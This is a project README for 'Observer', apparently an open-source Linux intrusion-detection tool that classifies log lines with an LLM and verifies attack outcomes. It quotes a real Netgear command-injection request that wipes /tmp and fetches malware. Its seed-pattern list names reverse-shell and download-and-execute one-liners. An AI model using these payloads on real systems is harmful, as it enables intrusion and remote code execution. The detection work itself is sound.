


# Observer

**Detects attacks. Verifies outcomes. Learns over time.**
Low-noise intrusion detection for Linux servers.

---

Observer watches your Docker container logs and host system events (sshd, sudo, kernel), classifies threats using an LLM, captures HTTP response evidence, and verifies whether attacks actually succeeded — before waking you up.

Most security tools scream "SQL injection detected!" when a bot sprays your server. Observer captures the server's response, reads it, and tells you "the app returned its welcome page and ignored the payload." One accurate finding instead of fifty false alarms.

## See It In Action

### Failed Attack: Netgear Botnet Exploit

A real attack caught in production — an IoT botnet tried to exploit a Netgear router vulnerability to download and execute malware:



Here's what happened, step by step:

1. **The attack:** An attacker sent `GET /setup.cgi?cmd=rm+-rf+/tmp/*;wget+malware;sh+netgear` — a real remote code execution attempt trying to wipe `/tmp`, download a Mozi botnet binary, and execute it.
2. **Tier 1 classification:** Observer's AI read the log line and said "this is malicious — command execution via setup.cgi, 0.78 confidence." No pattern was learned (malicious verdicts never auto-learn broad patterns, by design).
3. **Coordinator held for evidence:** Instead of alerting immediately, Observer waited 2-5 seconds and asked the packet sniffer "what did the server actually send back?"
4. **REC delivered the response:** The sniffer had captured the raw HTTP response from inside the nginx namespace — status 404.
5. **Downgraded:** The server returned a 404. The attack failed. The payload was rejected. Observer logged it and moved on. No email, no false alarm.

That's one email saved. Multiply by the thousands of attacks every public server receives daily.

### Successful Attack: CVE-2025-55182 (React2Shell)

We deployed a vulnerable Next.js 15.0.0 container and fired the public PoC for CVE-2025-55182 — a CVSS 10.0 pre-auth RCE that achieved arbitrary code execution as root. The attacker dumped `/etc/passwd`:



Observer's detection chain:

```
[ALERT] Source=docker:srv-captain--react2shell-test
  Reason=System credential file contents (/etc/passwd) in output
  MatchedVia=seeded

[ESCALATE] Source=docker:srv-captain--react2shell-test
  Reason=System credential file contents (/etc/passwd) in output
  MatchedVia=seeded (non-HTTP malicious, direct dispatch)
```

Seed matched `root:x:0:0:root` in the container's output → instant MALICIOUS classification → email sent. Zero LLM calls. The credential dump was detected deterministically before the AI even woke up.

**Two examples, two opposite outcomes — that's the point.** The Netgear exploit was *blocked* by the server (404), so Observer downgraded and stayed quiet. React2Shell *succeeded* (root access, credential dump), so Observer escalated and woke you up.

## Install

One command on any Linux server:

```bash
curl -fsSL https://raw.githubusercontent.com/VaultGuardian/observer/main/install.sh | sudo bash
```

The installer prompts for your OpenAI API key and alert email, sets up the systemd service, and starts Observer. You'll need a GitHub account with access to the repo (private beta).

Docker containers are monitored automatically if Docker is present. If not, Observer watches everything through journald — the policy engine, LLM classification, and email alerts all work on a bare metal server with nothing but sshd.

After install, manage with the CLI:

```bash
vaultguardian status          # Service status + recent logs
vaultguardian logs            # Tail logs
vaultguardian stats           # Pipeline performance
vaultguardian update          # Update to latest release
vaultguardian update v0.37    # Update to specific version
vaultguardian restart         # Restart observer
vaultguardian version         # Current + available versions
vaultguardian uninstall       # Remove observer
```

## How It Works

```
Log line arrives (Docker container or journald)
  → Deterministic filters (stack traces, failed HTTP probes, SSH brute force)
  → Policy engine (SSH logins, user creation, privilege escalation)
  → Seed patterns (credential dumps, reverse shells, private keys)
  → Pattern store (nanosecond hash/prefix/regex/contains lookup)
    → Known-good? Skip silently.
    → Known-noise? Suppress silently.
    → Known-bad? → Coordinator holds for evidence
    → Unknown? → LLM classifies → learns pattern → next time is instant

If alert-worthy:
  → REC captures the HTTP response from inside the container namespace
  → Structural redaction (keep visible text, strip secrets)
  → Re-classify with evidence: "Did the attack succeed or get ignored?"
  → Downgraded? Log it, don't email.
  → Confirmed credential exposure? Email immediately.
  → Non-HTTP malicious (command output, credential dumps)? Email immediately.
  → Evidence not captured? Mark as "evidence unavailable" — honest, not silent.
```

## What It Catches

**Policy engine (deterministic, pre-LLM):**
- SSH login from unknown IP → instant email alert
- New user created (`useradd`) → escalation
- Privilege grant (`usermod -aG sudo`) → escalation
- SSH authorized_keys modification → escalation
- Failed sudo attempts → alert

**Seed patterns (deterministic, no LLM needed):**
- System credential file contents (`root:x:0:0:root`) in any log stream → instant escalation
- Private keys (`BEGIN RSA PRIVATE KEY`, `BEGIN OPENSSH PRIVATE KEY`) → instant escalation
- Reverse shells (`bash -i >& /dev/tcp`) → instant escalation
- Remote code execution (`curl | sh`, `wget | sh`, `base64 -d | bash`) → instant escalation

**LLM classification (learns over time):**
- SQL injection, shell injection, PHP wrappers, encoded exploits
- Path traversal, reconnaissance probes
- Successful vs failed attack outcomes (intent × outcome)
- Protocol mismatches, binary probes, scanner noise
- Data exfiltration patterns (command output, env dumps, credential leaks)

**Deterministic suppression (never hits the LLM):**
- Application stack traces (Node.js, Python, Go, Java)
- Failed HTTP probes (404/403/405/400 with no attack payload)
- SSH brute force (thousands/day on every public server)
- Nginx file-not-found errors
- Firewall blocks (UFW/iptables)

## What Makes It Different

- **Evidence-aware.** Captures HTTP responses and verifies whether attacks succeeded. A `200 OK` with a welcome page is different from a `200 OK` with your database credentials.
- **Intent × outcome.** "Attacker probed and got nothing" (suppress) vs "attacker probed and got data" (email immediately).
- **Learns over time.** First novel log line: LLM call (~3s, fraction of a cent). Every repeat: cache hit (nanoseconds, free). Cache rates reach 97%+ within hours.
- **Low noise by design.** Failed scanners suppressed. SSH brute force invisible. Duplicate alerts grouped. False alarms downgraded with evidence.
- **Single binary, no dependencies.** One Go binary, one systemd service. No Docker required. No sidecar, no cloud requirement.
- **Works everywhere.** Bare metal with just sshd, Docker hosts, Docker Swarm clusters — same binary, same install.
- **Trusted IP allowlist.** Known IPs (your office, VPN) bypass SSH alerts. Unknown IP logs in → instant email.
- **Adversarial-hardened.** VIP evidence lane prevents traffic flood eviction. Catch-all fingerprinting uses body hashes, not sizes. Async writes prevent DDoS-induced pipeline stalls.

## Production Numbers

Real production stats from servers running Observer:

| Metric | Value |
|--------|-------|
| Events processed | 174,000+ |
| Cache hit rate | 97.5% |
| Total LLM calls | 517 |
| LLM errors | 4 |
| Total OpenAI spend | ~$17 lifetime |
| False alarm emails | 0 |
| Attacks downgraded (emails saved) | 29 |
| Real escalations caught | 3 |
| CVEs tested against | CVE-2025-55182 (CVSS 10.0) |

## Configuration

| Variable | Default | Description |
|----------|---------|-------------|
| `LLM_URL` | `https://api.openai.com` | LLM API endpoint (OpenAI-compatible) |
| `LLM_MODEL` | `gpt-5-nano-2025-08-07` | Model for classification |
| `LLM_API_KEY` | | API key for the LLM provider |
| `DOCKER_SOCKET` | `/var/run/docker.sock` | Docker socket path |
| `DATA_DIR` | `/data` | Pattern store + SQLite persistence |
| `EXCLUDE_CONTAINERS` | | Comma-separated container names to skip |
| `RESEND_API_KEY` | | Resend API key for email alerts |
| `ALERT_EMAIL_TO` | | Alert recipient email address |
| `REC_ENABLED` | `false` | Enable Response Evidence Capture |
| `REC_NS_CONTAINER` | | Container name for namespace capture (e.g. `captain-nginx`) |
| `JOURNALD_EXCLUDE_UNITS` | | Additional systemd units to suppress |

## Architecture

```
                    ┌─────────────────────────────────────────────┐
                    │  Observer (single Go binary)                │
                    │                                             │
  Journald ────────▶│  Journald     ┌──────────┐                 │
  (sshd, sudo,      │  Watcher  ──▶│           │                 │
   kernel)           │              │ Normalize │                 │
                    │              │     │      │                 │
  Docker API ──────▶│  Docker   ──▶│  Policy   │                 │
  (container logs)  │  Watcher     │  Engine   │                 │
                    │              │     │      │                 │
                    │              │  Seeds +   │                 │
                    │              │  Pattern   │                 │
                    │              │  Store     │                 │
                    │              │     │      │                 │
                    │              │  LLM ──────│──▶ OpenAI      │
                    │              │     │      │                 │
                    │              │ Coordinator│                 │
  AF_PACKET ───────▶│  REC ───────▶│  (evidence │──▶ Email alert │
  (namespace sniff) │  Sniffer     │   huddle)  │                │
                    │              └──────────┘                 │
                    │                                             │
                    │  REST API (:9090) ──▶ Dashboard connection  │
                    └─────────────────────────────────────────────┘
```

### Pipeline Layers

1. **Deterministic filters** — Stack traces, failed HTTP probes, SSH brute force. Regex-free structural detection. Never touches the LLM.
2. **Policy engine** — SSH logins, user creation, privilege escalation, authorized_keys. Identity-based decisions with trusted IP allowlist.
3. **Seed patterns** — Credential file contents, private keys, reverse shells, download-and-execute chains. Deterministic substring match, instant MALICIOUS verdict, direct email dispatch.
4. **Pattern store** — 4-bucket model (allow/malicious/alert/suppress), 4-tier matching (hash → prefix → regex → contains). Nanosecond lookups.
5. **LLM classifier** — OpenAI-compatible API. Intent × outcome classification. Data exfiltration detection. Learns patterns from verdicts. Bounded retry queue for backpressure.
6. **REC (Response Evidence Capture)** — AF_PACKET sniffer inside the reverse proxy's network namespace. Captures HTTP responses, redacts secrets, correlates with alerts. VIP lane protects malicious evidence from traffic flood eviction.
7. **Coordinator** — Groups alerts, holds for evidence (2-5s), downgrades false alarms, dispatches findings. Email only on confirmed credential exposure.
8. **Catch-all suppression** — Learns server response fingerprints (host, status, body hash). Auto-downgrades repeated identical responses across different attack paths.
9. **Evidence reconciler** — Background process finalizes unresolved findings. Marks as "evidence unavailable" after 15 minutes if evidence was never captured.

### Security Outcomes

| Outcome | Meaning |
|---------|---------|
| **Escalated** | Evidence confirmed real credential/data exposure. Email sent. |
| **Malicious** | Confirmed attack payload or data exfiltration. Email sent. |
| **Downgraded** | Attack confirmed failed via evidence. Email saved. |
| **Suspicious** | Unusual activity, unresolved. Dashboard review. |
| **Recon** | Probe logged for trend analysis. |

## API & Dashboard

Observer exposes a REST API on port `9090`, protected by a randomly generated bearer token stored at `/etc/vaultguardian/dashboard.key`.

The API provides:
- Security findings (events, verdicts, evidence)
- Pipeline stats (cache rate, LLM calls)
- Pattern store inspection (scopes, learned patterns)
- LLM decision audit trail
- Trusted IP management
- Policy rule status

Connect your Observer instance to the hosted dashboard at [app.vaultguardian.io](https://app.vaultguardian.io) for a visual interface with multi-server management.

You can also query the API directly:

```bash
# Get pipeline stats
curl -H "Authorization: Bearer $(cat /etc/vaultguardian/dashboard.key)" \
  http://localhost:9090/api/stats

# Get recent findings
curl -H "Authorization: Bearer $(cat /etc/vaultguardian/dashboard.key)" \
  http://localhost:9090/api/findings?limit=50

# Add a trusted IP
curl -X POST -H "Authorization: Bearer $(cat /etc/vaultguardian/dashboard.key)" \
  -H "Content-Type: application/json" \
  -d '{"ip":"98.152.173.124","description":"Office"}' \
  http://localhost:9090/api/trusted-ips
```

## Project Structure

```
├── main.go                           # Pipeline wiring, coordinator, retry queue, reconciler
├── seeds.go                          # Curated malicious pattern seeds
├── resultrouter.go                   # Shared classification outcome handler
├── config.go                         # Environment variable configuration
├── install.sh                        # One-command installer
├── internal/
│   ├── analyzer/                     # Normalize → match → classify → learn
│   ├── api/                          # REST API + bearer token auth
│   ├── coordinator/                  # Evidence huddle + catch-all suppression
│   ├── event/                        # Canonical event model
│   ├── llm/                          # LLM client, Tier 1 + Tier 2 prompts
│   ├── normalizer/                   # Source-specific log normalization
│   │   ├── nginx.go                  # Nginx access + error logs
│   │   ├── sshd.go                   # SSH auth logs
│   │   ├── postgres.go               # PostgreSQL logs
│   │   ├── syslog.go                 # Syslog envelope
│   │   ├── docker.go                 # Docker framing
│   │   └── generic.go                # Fallback normalizer
│   ├── notifier/                     # Email (Resend), webhook, SMS, push
│   ├── patternstore/                 # 4-bucket, 4-tier pattern matching
│   ├── policy/                       # Deterministic pre-LLM policy engine
│   ├── rec/                          # Response Evidence Capture (AF_PACKET)
│   ├── store/                        # SQLite persistence (findings, decisions, async writer)
│   └── watcher/                      # Docker + journald log streaming
└── README.md
```

## Build from Source

```bash
# Clone
git clone https://github.com/VaultGuardian/observer.git
cd observer

# Test
go test ./...

# Build for Linux
GOOS=linux GOARCH=amd64 go build -o observer .
```

## Contributing

Observer's normalizers are the primary contribution path. Each normalizer teaches Observer to recognize a specific service's log format, improving hash-hit rates and reducing LLM calls.

Observer works with everything out of the box via the generic normalizer. Service-specific normalizers make it faster and cheaper.

To add a normalizer:
1. Create `internal/normalizer/yourservice.go` implementing the `Normalizer` interface
2. Register it in `normalizer.go`
3. Add tests in `normalizer_test.go`

## Open Core

Observer's detection engine is open source. The full pipeline — classification, evidence capture, re-classification, pattern learning, policy engine, and local deployment — is free and unrestricted.

The hosted dashboard at [app.vaultguardian.io](https://app.vaultguardian.io) is a separate commercial product providing multi-server management, visual interface, long-term retention, and team workflows.

## License

AGPL-3.0

---

*Part of the [VaultGuardian](https://vaultguardian.io) ecosystem. Observer detects the intrusion. [DEC-1](https://vaultguardian.io) stops the data from leaving.*